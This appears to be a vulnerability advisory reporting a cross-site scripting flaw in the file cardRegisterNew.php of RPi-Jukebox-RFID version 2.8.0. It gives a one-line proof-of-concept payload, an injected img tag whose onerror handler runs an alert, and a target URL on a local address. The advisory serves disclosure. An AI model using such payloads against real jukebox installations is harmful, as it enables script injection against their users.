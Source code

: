 # XSS vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /cardRegisterNew.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/cardRegisterNew.php

**Version**

- 2.8.0

### POC

```
"><img src=x onerror=alert('xss')>
```

http://192.168.100.101/phoniebox/htdocs/cardRegisterNew.php

![image-20250825032812743](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250328942.png)
